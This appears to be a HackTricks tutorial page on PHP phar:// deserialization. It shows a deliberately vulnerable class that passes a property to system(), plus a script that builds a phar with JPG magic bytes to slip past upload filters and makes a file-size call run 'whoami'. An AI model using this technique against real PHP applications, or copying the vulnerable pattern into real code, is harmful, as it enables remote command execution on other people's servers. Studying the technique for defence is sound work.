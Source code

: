# phar:// deserialization

{{#include ../../banners/hacktricks-training.md}}

**Phar** files (PHP Archive) files **contain meta data in serialized format**, so, when parsed, this **metadata** is **deserialized** and you can try to abuse a **deserialization** vulnerability inside the **PHP** code.

The best thing about this characteristic is that this deserialization will occur even using PHP functions that do not eval PHP code like **file_get_contents(), fopen(), file() or file_exists(), md5_file(), filemtime() or filesize()**.

So, imagine a situation where you can make a PHP web get the size of an arbitrary file an arbitrary file using the **`phar://`** protocol, and inside the code you find a **class** similar to the following one:

```php:vunl.php
<?php
class AnyClass {
	public $data = null;
	public function __construct($data) {
		$this->data = $data;
	}

	function __destruct() {
		system($this->data);
	}
}

filesize("phar://test.phar"); #The attacker can control this path
```

You can create a **phar** file that when loaded will **abuse this class to execute arbitrary command**s with something like:

```php:create_phar.php
<?php

class AnyClass {
	public $data = null;
	public function __construct($data) {
		$this->data = $data;
	}

	function __destruct() {
		system($this->data);
	}
}

// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");

// add object of any class as meta data
$object = new AnyClass('whoami');
$phar->setMetadata($object);
$phar->stopBuffering();
```

Note how the **magic bytes of JPG** (`\xff\xd8\xff`) are added at the beginning of the phar file to **bypass** **possible** file **uploads** **restrictions**.\
**Compile** the `test.phar` file with:

```bash
php --define phar.readonly=0 create_phar.php
```

And execute the `whoami` command abusing the vulnerable code with:

```bash
php vuln.php
```

### References

{{#ref}}
https://blog.ripstech.com/2018/new-php-exploitation-technique/
{{#endref}}

{{#include ../../banners/hacktricks-training.md}}
